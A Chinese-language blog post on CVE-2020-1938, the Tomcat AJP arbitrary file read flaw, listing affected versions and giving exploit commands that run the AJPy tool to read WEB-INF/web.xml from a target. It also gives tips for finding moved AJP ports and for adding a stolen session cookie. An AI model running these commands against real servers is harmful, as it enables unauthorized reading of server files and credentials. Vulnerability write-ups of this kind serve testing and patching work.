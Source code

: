 ```yaml
---
title: CVE-2020-1938 Tomcat任意文件下载漏洞
tags: 
- CVE
- 漏洞
categories:
- 技术分享
top_img: /img/yangb.png
cover: /img/CVE.png
---
```


## 漏洞说明
该漏洞是由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件。若目标服务器同时存在文件上传功能，攻击者可进一步实现远程代码执行。目前，厂商已发布新版本完成漏洞修复。

受影响版本

* Apache Tomcat 6  
* Apache Tomcat 7 < 7.0.100  
* Apache Tomcat 8 < 8.5.51
* Apache Tomcat 9 < 9.0.31

不受影响版本

* Apache Tomcat = 7.0.100
* Apache Tomcat = 8.5.51
* Apache Tomcat = 9.0.31

## Exp 漏洞利用
```sh
$ git clone git@github.com:yangb92/AJPy.git
$ cd AJPy
$ python tomcat.py read_file --webapp=manager /WEB-INF/web.xml 172.17.0.2
```
> 实战经验: 
>1. 如果目标默认的AJP端口改变, 扫描所有开放端口，逐个进行测试。改变默认端口参数： --port=8812
>2. 如果目标出现302授权跳转，需要在tomcat.py/perform_request函数提供默认参数headers={"cookie":"xxx"},添加已认证的cookie
